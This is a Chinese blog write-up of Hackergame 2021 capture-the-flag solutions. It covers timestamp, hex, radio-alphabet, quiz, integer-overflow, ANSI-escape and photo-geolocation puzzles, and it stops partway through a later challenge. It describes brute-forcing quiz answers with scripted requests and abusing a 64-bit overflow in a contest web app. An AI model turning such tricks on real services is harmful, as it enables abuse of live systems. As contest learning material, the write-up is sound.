<h3 align="center">如公式无法显示可移步博客 <a href="https://bipy.me/post/hackergame-2021">bipy.me</a></h3>

****

* [签到](#签到)
* [进制十六——参上](#进制十六参上)
* [去吧！追寻自由的电波](#去吧追寻自由的电波)
* [猫咪问答 Pro Max](#猫咪问答-pro-max)
* [卖瓜](#卖瓜)
* [透明的文件](#透明的文件)
* [旅行照片](#旅行照片)
* [FLAG 助力大红包](#flag-助力大红包)
* [Amnesia](#amnesia)
   * [轻度失忆](#轻度失忆)
* [图之上的信息](#图之上的信息)
* [Easy RSA](#easy-rsa)
* [加密的 U 盘](#加密的-u-盘)
* [赛博厨房](#赛博厨房)
   * [Level 0](#level-0)
   * [Level 1](#level-1)
* [助记词](#助记词)
   * [第一顿大餐](#第一顿大餐)
* [马赛克](#马赛克)
* [minecRaft](#minecraft)

# 签到

> 为了能让大家顺利签到，命题组把每一秒的 flag 都记录下来制成了日记本的一页。你只需要打开日记，翻到 Hackergame 2021 比赛进行期间的任何一页就能得到 flag！



简单观察发现页数对应了时间戳（秒），按照题目要求翻页到比赛日期的任意时间戳即可，打开 Shell 输入命令：

```bash
date +%s
# 1635000000
```

然后忽略掉 HTTP Query，狂暴点击 Next 按钮 1635000000 次即可轻松拿到 flag～

# 进制十六——参上

> 为严防 flag 泄漏以及其他存在于未来所有可能的意外灾难，神通广大的 Z 同学不仅强制要求每一道题目都加上权限和资源的限制，还给所有参与 Hackergame 2021 命题的计算机施加了一层法术结界。任何试图从结界逃逸的 flag 都会被无情抹除。
>
> 而一位明面上是计算机学院的新生，实则为物理学院暗部核心成员的 X 同学，在 Hackergame 2021 命题组已经潜伏多时。妄想趁比赛开始的午时，借阳火正旺之势，冲破 Z 同学的结界，以图片而非明文的形式，将 flag 悄悄传递出来。
>
> 好在 Z 同学法力之深厚，不可管窥蠡测。在 flag 被传出去的前两天，就已预知此事并将图片中的 flag 无声消泯了。
>
> 只是，这位 X 同学，虽然不会退出 Vim，但是似乎对打开十六进制编辑器颇有造诣……
>
> 

记录下对应区域的 16 进制，转换为明文即可拿到 flag

# 去吧！追寻自由的电波

> （前情提要） 为了打破 Z 同学布下的结界，X 同学偷偷搬出社团的业余无线电台试图向外界通讯。
>
> 当然，如果只是这样还远远不够。遵依史称“老爹”的上古先贤的至理名言，必须要“用魔法打败魔法”。X 同学向上级申请到了科大西区同步辐射实验室设备的使用权限，以此打通次元空间，借助到另一个平行宇宙中 Z 同学的法力进行数据对冲，方才于乱中搏得一丝机会，将 flag 用无线电的形式发射了出去。
>
> 考虑到信息的鲁棒性，X 同学使用了无线电中惯用的方法来区分字符串中读音相近的字母。即使如此，打破次元的强大能量扭曲了时空，使得最终接受到的录音的速度有所改变。
>
> 为了保障同步辐射设备的持续运转，组织牺牲了大量的能源，甚至以东北部分地区无计划限电为代价，把这份沉甸甸的录音文件送到了你的手上。而刚刚起床没多久，试图抢签到题一血还失败了的你，可以不辜负同学们对你的殷切期望吗？
>
> 注：flag 花括号内只包含小写字母。

看完之后发现第一个信息：**什么是“无线电中惯用的方法”？**

搜索得知该方法为[北约音标字母](https://zh.wikipedia.org/wiki/%E5%8C%97%E7%BA%A6%E9%9F%B3%E6%A0%87%E5%AD%97%E6%AF%8D)，下表来自维基百科：

|                 字母                 |     代码     |         音标         |                           代码原意                           |
| :----------------------------------: | :----------: | :------------------: | :----------------------------------------------------------: |
| [A](https://zh.wikipedia.org/wiki/A) |   **Alfa**   |        ˈælfɑ         |                      首个希腊字母（α）                       |
| [B](https://zh.wikipedia.org/wiki/B) |  **Bravo**   |       ˈbrɑːˈvo       |                            喝采声                            |
| [C](https://zh.wikipedia.org/wiki/C) | **Charlie**  |    ˈtʃɑːli ˈʃɑːli    |                        查理（男子名）                        |
| [D](https://zh.wikipedia.org/wiki/D) |  **Delta**   |        ˈdeltɑ        | 第四个希腊字母（δ）；[三角洲](https://zh.wikipedia.org/wiki/三角洲) |
| [E](https://zh.wikipedia.org/wiki/E) |   **Echo**   |         ˈeko         |          [回音](https://zh.wikipedia.org/wiki/回音)          |
| [F](https://zh.wikipedia.org/wiki/F) | **Foxtrot**  |      ˈfɔkstrɔt       |        [狐步舞](https://zh.wikipedia.org/wiki/狐步舞)        |
| [G](https://zh.wikipedia.org/wiki/G) |   **Golf**   |         ɡʌlf         |      [高尔夫球](https://zh.wikipedia.org/wiki/高爾夫球)      |
| [H](https://zh.wikipedia.org/wiki/H) |  **Hotel**   |       hoːˈtel        |          [旅馆](https://zh.wikipedia.org/wiki/旅館)          |
| [I](https://zh.wikipedia.org/wiki/I) |  **India**   |       ˈindiˑɑ        |          [印度](https://zh.wikipedia.org/wiki/印度)          |
| [J](https://zh.wikipedia.org/wiki/J) | **Juliett**  |     ˈdʒuːliˑˈet      |                       茱莉叶（女子名）                       |
| [K](https://zh.wikipedia.org/wiki/K) |   **Kilo**   |        ˈkiːlo        | [千](https://zh.wikipedia.org/wiki/千_(前綴))（公制单位的前缀） |
| [L](https://zh.wikipedia.org/wiki/L) |   **Lima**   |        ˈliːmɑ        | [利马](https://zh.wikipedia.org/wiki/利馬)（[秘鲁](https://zh.wikipedia.org/wiki/秘魯)的首都） |
| [M](https://zh.wikipedia.org/wiki/M) |   **Mike**   |         mɑik         |                        麦克（男子名）                        |
| [N](https://zh.wikipedia.org/wiki/N) | **November** |       noˈvembə       |          [11月](https://zh.wikipedia.org/wiki/11月)          |
| [O](https://zh.wikipedia.org/wiki/O) |  **Oscar**   |        ˈɔskɑ         |                       奥斯卡（男子名）                       |
| [P](https://zh.wikipedia.org/wiki/P) |   **Papa**   |        pəˈpɑ         | 爸爸（许多语言中对于[父亲](https://zh.wikipedia.org/wiki/父親)的昵称） |
| [Q](https://zh.wikipedia.org/wiki/Q) |  **Quebec**  |        keˈbek        | [魁北克](https://zh.wikipedia.org/wiki/魁北克)（[加拿大](https://zh.wikipedia.org/wiki/加拿大)的一个省份） |
| [R](https://zh.wikipedia.org/wiki/R) |  **Romeo**   |       ˈroːmiˑo       |                       罗密欧（男子名）                       |
| [S](https://zh.wikipedia.org/wiki/S) |  **Sierra**  |        siˈerɑ        |          [山脉](https://zh.wikipedia.org/wiki/山脈)          |
| [T](https://zh.wikipedia.org/wiki/T) |  **Tango**   |        ˈtænɡo        |          [探戈](https://zh.wikipedia.org/wiki/探戈)          |
| [U](https://zh.wikipedia.org/wiki/U) | **Uniform**  | ˈjuːnifɔːm ˈuːnifɔrm |          [制服](https://zh.wikipedia.org/wiki/制服)          |
| [V](https://zh.wikipedia.org/wiki/V) |  **Victor**  |        ˈviktɑ        |                       维克多（男子名）                       |
| [W](https://zh.wikipedia.org/wiki/W) | **Whiskey**  |        ˈwiski        |        [威士忌](https://zh.wikipedia.org/wiki/威士忌)        |
| [X](https://zh.wikipedia.org/wiki/X) |  **X-ray**   |       ˈeksˈrei       |           [X光](https://zh.wikipedia.org/wiki/X光)           |
| [Y](https://zh.wikipedia.org/wiki/Y) |  **Yankee**  |        ˈjænki        | [北佬](https://zh.wikipedia.org/wiki/洋基)（用来称呼美国北方人的[俚语](https://zh.wikipedia.org/wiki/俚語)） |
| [Z](https://zh.wikipedia.org/wiki/Z) |   **Zulu**   |       ˈzuːluː        | [祖鲁](https://zh.wikipedia.org/wiki/祖魯)（一个分布于非洲南部的民族） |

第二个信息：**录音速度有所改变**

随后下载了音频，简单，直接 mpv 变速播放不就行了——

```bash
mpv radio.mp3 --speed=0.3
```

然而声音极其模糊根本听不清，我还傻 fufu 地听了一小时，几个听不清的单词就反复听反复猜，然而提交一直 flag 错误...

这时我的想法是视频都可以插帧，那能否给音频“插下帧”呢？

这时我想起来了曾经在 Windows 平台制作音频的经历——可惜现在穷学生买不起 Mac 上的 [Adobe Audition](https://www.adobe.com/products/audition.html)，怎么办呢？搜索了一下发现有个免费开源的音频编辑器 [Audacity](https://www.audacityteam.org/)，试了一下发现很好用。

使用 Audacity 将音频速度放慢到 30%，杂音消失了，一切变得明朗起来，播音员浑厚而又清晰的声音仿佛生怕我听不懂他在说什么...又仿佛在嘲笑我只会用 mpv...

~~同时还发现我之前硬猜的有几个字母是错的~~

于是，flag 到手。

# 猫咪问答 Pro Max

> 我猛然一看，就猛然看到这个猫咪问答，我直呼我直呼，上次看到这么这么的发言还是上次，这问答属于是典型的典型了，我之前还没发现，当我发现的时候我已经发现了，这问答就像一个问答，问答的内容充满了内容，我不禁感慨了一句感慨：希望下次看到这么这么的猫咪问答是下次。

年度惯例整活题：考察信息收集能力

今年的猫咪问答如下：

1. 2017 年，中科大信息安全俱乐部（SEC@USTC）并入中科大 Linux 用户协会（USTCLUG）。目前，信息安全俱乐部的域名（sec.ustc.edu.cn）已经无法访问，但你能找到信息安全俱乐部的社团章程在哪一天的会员代表大会上通过的吗？
2. 中国科学技术大学 Linux 用户协会在近五年多少次被评为校五星级社团？
3. 中国科学技术大学 Linux 用户协会位于西区图书馆的活动室门口的牌子上“LUG @ USTC”下方的小字是？
4. 在 SIGBOVIK 2021 的一篇关于二进制 Newcomb-Benford 定律的论文中，作者一共展示了多少个数据集对其理论结果进行验证？
5. 不严格遵循协议规范的操作着实令人生厌，好在 IETF 于 2021 年成立了 Protocol Police 以监督并惩戒所有违背 RFC 文档的行为个体。假如你发现了某位同学可能违反了协议规范，根据 Protocol Police 相关文档中规定的举报方法，你应该将你的举报信发往何处？

第一题直接在 [Internet Archive](https://archive.org/) 搜索 `sec.ustc.edu.cn` 相关信息就能找到该社团章程。

第二、三题直接在 `LUG@USTC` 的[官网](https://lug.ustc.edu.cn/)进行搜索即可。

第四题这篇文章懒得仔细读，先跳过。

第五题搜索得到 [RFC8962](https://datatracker.ietf.org/doc/html/rfc8962)，和去年的飞鸽传书一样也是篇整活文档——“对于举报，请发往 `/dev/null`”

随后，写个脚本循环发 POST 请求提交答案，其中第四题答案从 1 开始递增，当第四题答案为 13 时，便找到了 flag。

# 卖瓜

> 有一个人前来买瓜。
>
> HQ：哥们，这瓜多少钱一斤啊？
>
> 你：两块钱一斤。
>
> HQ：What's up！这瓜皮子是金子做的还是瓜粒子是金子做的？
>
> 你：你瞧瞧现在哪有瓜啊？这都是大棚的瓜，只有 6 斤一个和 9 斤一个的，你嫌贵我还嫌贵呢。
>
> （HQ 心里默默一算）
>
> HQ：给我来 20 斤的瓜。
>
> 你：行！
>
> HQ：行？这瓜能称出 20 斤吗？
>
> 你：我开水果摊的，还不会称重？
>
> HQ：我问你这瓜能称出 20 斤吗？
>
> 你：你是故意找茬，是不是？你要不要吧！
>
> HQ：你这瓜要是刚好 20 斤吗我肯定要啊。那它要是没有怎么办啊？
>
> 你：要是不是 20 斤，我自己吃了它，满意了吧？
>
> （你开始选瓜称重）
>
> **补充说明：当称的数字变为浮点数而不是整数时，HQ 不会认可最终的称重结果。**



题目如上图所示，~~众所周知 6 和 9 可以组成 20~~

一看就需要利用到大数的溢出，随便写几个数试下就会发现这个数字很大，应该是 64 位的

于是直接称 `1e19` 个 9 斤的瓜：



变成负数了，很好，算一下再来多少个瓜可以为正数：

```python
# python
print("ans = %d" % (9223372036854775808 / 9))

# ans = 1024819115206086144
```

于是再放上 1024819115206086144 个 9 斤的瓜：



和预期不一样，这瓜果真缺斤少两（

不过不影响，再来 512 / 9 约等于 57 个 9 斤的瓜：



出现了，虚空一斤！

再次重复一套以上操作，便得到了虚空两斤

这两斤加上两个 9 斤瓜，刚好 20 斤，成功拿到 flag

~~从头到尾也没用到 6 斤的瓜~~

# 透明的文件

> 一个透明的文件，用于在终端中展示一个五颜六色的 flag。
>
> 可能是在 cmd.exe 等劣质终端中被长期使用的原因，这个文件失去了一些重要成分，变成了一堆乱码，也不会再显示出 flag 了。
>
> 注意：flag 内部的字符全部为小写字母。

下载打开这个文件，里面充斥着这样的代码（下面为一小部分）：

```
[0;0H[20;58H[8;34H[13;27H[4;2H[38;2;1;204;177m [39m[14;10H[20;51H[23;4H[12;2H[38;2;2;207;173m [39m[19;61H[9;12H[22;8H[20;2H[38;2;3;210;169m [39m[3;23H[8;68H[19;10H[4;3H[38;2;4;214;165m [39m[19;23H[17;34H[11;52H[22;70H[12;3H[38;2;5;217;161m [39m[24;22H[2;25H[19;76H[19;3H[38;2;6;220;157m [39m[23;14H[21;12H[10;37H[2;37H[22;66H[16;45H[21;3H[38;2;7;222;153m [39m[10;47H[18;34H[23;3H[38;2;8;225;149m [39m[10;63H[3;4H[38;2;10;228;145m [39m[16;15H[21;75H[15;44H[1;48H[1;29H[4;4H[38;2;12;230;140m [39m[12;44H[13;13H[1;77H[5;60H[19;67H[12;15H[5;4H[38;2;13;233;136m [39m[11;75H[6;4H[38;2;15;235;132m 
```

之前用过 ANSI Escape 代码，不过比较基础，`[m` 我知道，这个 `[H` 确实是没见过

搜索到一篇 [StackOverFlow](https://stackoverflow.com/a/33206814)，介绍了 ANSI Escape 的基本用法，大概明白了 `[H`  的作用是移动游标

那就简单了，首先把丢了的控制符 `\033` 加上：

用 VS Code 的替换功能，把所有的`[` 替换为`\033[`，其中 `\033` 是不可见字符，可以由其他程序 print 出来然后复制

随后把空格全部替换为可见字符比如 `$`，最终效果如下：

```
$$$$$$$$$$$$
```

将修改后的该文件在 Shell 打印出来：

```bash
echo -e $(cat transparent.txt)
```

但是图像一闪而过根本看不清，怎么办呢？

屏幕录制，mpv 打开录像，按 `,` 和 `.` 键一帧帧回放，一气呵成（

最终效果如下：



# 旅行照片

> 你的学长决定来一场说走就走的旅行。通过他发给你的照片来看，他应该是在酒店住下了。
>
> 
>
> 从照片来看，酒店似乎在小区的一栋高楼里，附近还有一家 KFC 分店。突然，你意识到照片里透露出来的信息比表面上看起来的要多。
>
> 请观察照片并答对全部 5 道题以获取 flag。注意：图片未在其他地方公开发布过，也未采取任何隐写措施（通过手机拍摄屏幕亦可答题）。

通过照片找信息，也是道信息收集题

问题及解答如下：

1. **该照片拍摄者的面朝方向为：**

    观察左下角房子上的太阳能热水器，一般都是朝南，因此可以判断拍摄者面朝东南。

2. **该照片的拍摄时间大致为：**

    观察影子综合第一题得知太阳在西面，因此目前是下午到傍晚的夕阳。

3. **该照片的拍摄者所在楼层为：**

    有地平线就太好判断楼层了，数对面楼的楼层得知地平线所在位置为 14 层，即为拍摄者楼层。

4. **该照片左上角 KFC 分店的电话号码是：**

    不问我还真没看到有个 KFC，直接搜索 “KFC 海边” 得到小红书上的一堆打卡贴——噢原来是全国独此一家的“网红 KFC”啊，位于秦皇岛新奥海底世界。

    打开 KFC 小程序，搜索秦皇岛新奥店，即可得知电话号码。

5. **该照片左上角 KFC 分店左侧建筑有三个水平排列的汉字，它们是：**

    地图搜索秦皇岛新奥这个地方，有张图片指出这三个字是“海豚馆”。

如上所述，提交即可拿到 flag～

# FLAG 助力大红包

> “听说没？【大砍刀】平台又双叒做活动啦！参与活动就送 0.5 个 flag 呢，攒满 1 个 flag 即可免费提取！”
>
> “还有这么好的事情？我也要参加！”
>
> “快点吧！我已经拿到 flag 了呢！再不参加 flag 就要发完了呢。”
>
> “那怎么才能参加呢？”
>
> “这还不简单！点击下面的链接就行”



得到一个助力链接，需要 N 个人点了链接才可以得到 flag

怎么区分不是同一个人呢？看这个 “活动规则”：

> **活动规则:**
>
> 1. 用户在本活动中可以通过邀请好友助力的方式获得 flag 提现机会。收集满 1 个 flag ，即可提取 1 个 flag。
>
> 2. 用户在页面规定的时间内累计获得的 flag 达到一定的门槛才可提取。如未达到门槛，所积累的 flag 会失效的呦。
>
